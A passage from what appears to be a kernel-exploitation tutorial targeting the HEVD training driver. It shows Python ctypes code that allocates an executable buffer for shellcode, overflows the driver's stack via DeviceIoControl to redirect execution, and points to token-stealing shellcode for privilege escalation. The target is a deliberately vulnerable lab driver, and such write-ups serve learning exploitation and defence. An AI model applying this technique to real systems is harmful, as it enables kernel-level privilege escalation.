 ```python
    c_int(len(shellcode)),
    c_int(0x3000),
    c_int(0x40)
)

if not addr:
    print("[!] Error allocating shellcode RWX buffer")
else:
    print("[*] Allocated RWX buffer for shellcode @ {}").format(str(hex(addr)))

memmove(addr,shellcode,len(shellcode))

addr = struct.pack("<Q", addr)

buf = create_string_buffer("A"*2048 + "B"*8 + addr)

result = kernel32.DeviceIoControl(
    hevd,
    0x222003,
    addressof(buf),
    (len(buf)-1),
    None,
    0,
    byref(c_ulong()),
    None
)

if result != 0:
        print("[*] Sending payload to driver...")
else:
    print("[!] Unable to send payload to driver.")
    sys.exit(1)
```

Running this exploit code nets us a clean execution and we don't crash the kernel! 

![](/assets/images/AWE/cleanaf.PNG)

Now all that's left to do is add some real shellcode. I used the x64 shellcode from [@abatchy17's blog on the token-stealing payloads he was using](https://www.abatchy.com/2018/01/kernel-exploitation-2)
